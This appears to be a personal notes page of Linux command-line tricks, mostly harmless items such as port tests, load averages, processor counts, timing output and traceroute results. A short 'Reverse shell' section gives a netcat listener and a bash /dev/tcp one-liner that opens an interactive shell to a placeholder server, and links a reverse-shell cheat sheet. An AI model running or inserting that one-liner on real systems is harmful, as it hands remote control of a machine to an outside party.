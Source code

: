 # Linux CLI tricks

# Send a string to an IP/port
```bash
telnet 127.0.0.1 80

(echo hello; sleep 1) | telnet 127.0.0.1 80

echo hello > /dev/tcp/127.0.0.1/80

echo hello | nc localhost 80
```

# Reverse shell
```bash
# server
nc -knvlp 3389

# client
bash -i >& /dev/tcp/server_ip/3389 0>&1
```

## See also

- https://tldp.org/LDP/abs/html/x17974.html
- https://highon.coffee/blog/reverse-shell-cheat-sheet/
- https://catonmat.net/bash-one-liners-explained-part-three
- http://docs.eggplantsoftware.com/epp/9.0.0/ePP/advovercoming_tcpip_connection_li.htm

# Target everything but one file
```
git add !(unit.md)
```

# Print a random line from a file
```bash
sed "$(( $RANDOM % $(cat readme.txt | wc -l) ))q;d" readme.txt

shuf readme.txt | head -1
```

# Epoch seconds
From bash 5.

```bash
$ echo $EPOCHREALTIME
1614870873.574544

$ echo $EPOCHSECONDS
1614870876
```

# uptime

The three load average values are 1, 5 and 15 minutes.

```bash
$ uptime
15:29:28 up 20:23, 0 users, load average: 5.08, 1.49, 0.51
```

# stress

Stress your system in different ways.

```bash
$ stress --cpu 8
```

# Number of processors
```
$ make -j $(nproc)
```

# Synonyms for localhost

```bash
localhost
127.0.0.1
127.0.0.2
127.0.0.3
127.1
0.0.0.0
0 # wut
```

# Move a file out of the way

```bash
mv {,_}.bash_history
```

# Verbose time

```
$ /usr/bin/time -v ls /
bin dev home lib lib64 lost+found mnt proc run snap sys usr
boot etc init lib32 libx32 media opt root sbin srv tmp var
Command being timed: "ls /"
User time (seconds): 0.00
System time (seconds): 0.00
Percent of CPU this job got: 100%
Elapsed (wall clock) time (h:mm:ss or m:ss): 0:00.00
Average shared text size (kbytes): 0
Average unshared data size (kbytes): 0
Average stack size (kbytes): 0
Average total size (kbytes): 0
Maximum resident set size (kbytes): 2412
Average resident set size (kbytes): 0
Major (requiring I/O) page faults: 0
Minor (reclaiming a frame) page faults: 126
Voluntary context switches: 1
Involuntary context switches: 0
Swaps: 0
File system inputs: 0
File system outputs: 0
Socket messages sent: 0
Socket messages received: 0
Signals delivered: 0
Page size (bytes): 4096
Exit status: 0
```

# Vendor IDs
View the latest on [ieee.org](http://standards-oui.ieee.org/oui.txt).

To install on Ubuntu:
```bash
sudo apt install --yes arp-scan
get-oui
```

# pushd equivalent
I use this all the time. Rather than `pushd` and `popd` to navigate around the file system:
```bash
# Navigate to new dir
cd ~/deanturpin.gitlab.io/content/post

# Return whence you came
cd -
```

# Last argument
I've used `esc shift -` to get the last argument from the previous command for a long time. But it's a little unweildy and you can do the same with `alt .`.

# MTR: "my traceroute"
Like tracepath/route but cooler.

```bash
My traceroute [v0.93]
BootCamp-0263E (172.25.71.53) 2021-04-10T13:22:42+0100
Keys: Help Display mode Restart statistics Order of fields quit
Packets Pings
Host Loss% Snt Last Avg Best Wrst StDev
1. BootCamp-0263E.7thsensedesign.local 0.0% 37 0.6 0.7 0.2 3.5 0.5
2. 192.168.0.1 97.2% 37 5.6 5.6 5.6 5.6 0.0
3. (waiting for reply)
4. brig-core-2b-xe-810-0.network.virginmedia.net 0.0% 37 11.6 15.1 11.1 32.4 4.6
5. (waiting for reply)
6. eislou2-ic-3-ae0-0.network.virginmedia.net 0.0% 37 22.1 26.5 20.0 51.8 7.5
7. 72.14.221.42 0.0% 37 22.7 25.1 20.4 46.0 5.4
8. 108.170.246.161 0.0% 37 19.2 23.4 18.7 39.5 5.0
9. 108.170.246.175 63.9% 37 23.3 28.1 22.9 45.5 6.6
10. 216.239.58.179 63.9% 37 22.2 29.2 22.2 62.7 10.7
11. 142.250.210.20 0.0% 37 101.4 104.0 98.5 111.8 3.4
12. 142.250.210.24 66.7% 37 115.7 114.8 110.2 123.0 3.3
13. 209.85.247.212 66.7% 37 115.7 114.9 108.7 131.7 6.5
14. 209.85.241.205 66.7% 37 111.9 116.2 111.2 129.3 5.0
15. (waiting for reply)
16. (waiting for reply)
17. (waiting for reply)
18. (waiting for reply)
19. (waiting for reply)
20. (waiting for reply)
21. (waiting for reply)
22. (waiting for reply)
23. (waiting for reply)
24. 35.185.44.232 0.0% 36 110.9 113.7 108.8 132.4 5.5
```

# See also
- https://github.blog/2015-06-08-how-to-undo-almost-anything-with-git/
